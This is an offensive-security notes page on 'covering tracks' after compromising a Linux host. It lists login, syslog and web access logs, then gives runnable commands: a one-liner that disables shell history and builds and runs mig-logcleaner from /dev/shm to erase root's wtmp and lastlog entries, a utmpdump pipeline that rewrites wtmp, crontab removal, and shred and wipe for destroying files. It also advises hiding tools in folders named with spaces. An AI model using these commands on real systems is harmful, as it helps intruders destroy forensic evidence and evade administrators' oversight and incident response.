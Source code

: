 # ⭕ Covering Tracks

## <mark style="color:red;">Login Events</mark>

`/var/log/auth.log` This is where are the activity and login's are stored, including failed attempted login's\
`/var/log/lastlog` Contents of accounts, port, and last login date & time.\
`/var/log/wtmp` Records all logins and logouts.

## <mark style="color:red;">Shell History</mark>

The shell history can be found in the home directory of a specific user, if you logged in as root, then in /root.\
They have a dot behind the file name, meaning they are "hidden" by executing `ls -la` you will see all the files including file permissions, who this file belogs to, the size of it , date and time.

`.sh_historycsh`\
`.historyksh`\
`.sh_historybash`\
`.bash_history`\
`.history`

\
As soon as you logged in your first command should be: `unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHST REMOTEHOST REMOTEUSER;export HISTSIZE=0`\
Which will unset all the variables in question so you don't leave any shell history behind from that point onwards and therefore you wouldn't need to remove or touch .bash\_history at all.

## <mark style="color:red;">**Command History**</mark>

`HISTFILE` Provides the location of the command buffer file.\
`HISTSIZE` Number of lines to be kept in the command history buffer.\
`HISTSAVE` Determines whether the command history should be saved on disk or not.

## <mark style="color:red;">**Temp Files**</mark>

`/tmp/`\
`/var/tmp/`\
If you have compiled something, or used a tool that creates temporary files, make sure you visit these folders and remove any of YOUR leftovers.

Note: The /var/tmp directory is made available for programs that require temporary files or directories that are preserved between system reboots. Therefore, data stored in /var/tmp is more persistent than data in /tmp

## <mark style="color:red;">**Sys Log**</mark>

`/etc/syslog` is a protocol for tracking and logging system messages\
`/etc/kern.log` kernel logs information and also dmesg (diagnostic message)

These are more if you are doing major changes to the system, I wouldn't worry about them but I am informing you just in case.

## <mark style="color:red;">**Other files of interest**</mark>

`/var/log/mail.log` If you send an email from within the system\
`/var/log/dpkg.log` If you have installed something on the system\
These are log files that are easily editable with any editor, you can just remove your activity.\
`/var/log/nginx/access.log`\
`/var/log/apache2/access.log`\
Quick scenario, you accessed a machine, through a web app vulnerability, so you executed some kind of RCE exploit or uploaded a webshell..either way your ip address and all the GET/POST requests will be in those files, consider checking those aswell.\
`/home/USER/.ssh/known_hosts`\
`/home/USER/.ssh/authorized_keys`\
`/root/.ssh/known_hosts`\
`/root/.ssh/authorized_keys`\
Also consider thinking about this, Have you made a connection from this machine to another one? Have you used an authorized\_key for logging without passwords?\
Have you used the browser? Clear the history of your activity.

## <mark style="color:red;">**Cron**</mark>

`/var/spool/cron/crontabs` # crontab -l to view the Crontab\
If you have set up some tasks to autorun, `crontab -r`

Now let's talk about tools, I personally don't know One that will fit all the scenarios and all the different distributions.

If you upload tools make sure not to use a common folder like the home, find a place like `/dev/shm` or you could consider making a hidden folder, often you will not be found if you use a folder name like `". "` or `" "`

Quick scenario: I just logged in a SSH, Here I am making sure that I don't leave any shell history from my activity and I will use a tool called mig-logcleaner to remove my log in entry from wtmp and lastlog.\
This is just for PoC, I know I used git, you may not have git installed, you can always clone/compile/ elsewhere and upload the binary on your own web server or just upload it from your PC via a SCP software (e.g winSCP)

Oneliner:

```bash
unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHST REMOTEHOST REMOTEUSER;export HISTSIZE=0;cd /dev/shm;git clone https://github.com/Kabot/mig-logcleaner-resurrected.git;cd mig*;make linux;./mig-logcleaner -u root;cd ..;rm -rf mig*
```

However, if you'd rather go the manual route and with less tooling give this a go, utmpdump works great for this and is installed by default, this will remove the wtmp entry.\
See example below

```bash
utmpdump /var/log/wtmp | grep -v "tty1" > temp.txt
utmpdump -r < temp.txt > /var/log/wtmp
rm -f temp.txt
```

Why is this better than just doing rm -rf /var/log/auth.log; touch /var/log/auth.log and the same for .bash\_history? Well by now I would hope that we are on the same page with the fact that it would be very suspicious if all your logs were gone. If the logs are needing checked (lastlog for example) there should be previous activity recorded because we don't want to tamper too much with the logs.

If you upload other files and want to remove them permanently, here are some other tools that I recommend.

Shred, installed by default.

```bash
shred -zxuvf fileName
```

BashCopy

\-z, --zero     add a final overwrite with zeros to hide shredding\
\-x, --exact    do not round file sizes up to the next full block; this is the default for non-regular files\
\-u  deallocate and remove file after overwriting\
\-v, --verbose  show progress\
\-n, --iterations=N  overwrite N times instead of the default (3)

```bash
wipe fileName
wipe -r dirName
```

Another similar tool:\
Wipe, this tool repeatedly overwrites special patterns to the files to be destroyed. You can remove the contents of a single file, folder, or even the entire disk. This tool needs to be installed.

Shred renames a files to 0's many times and at the end deletes it

\
A few other command line tricks\
`sudo lsof | grep .log` check for currently open and active log files\
`sudo find / -cmin 0 -print` find recent documents on the system
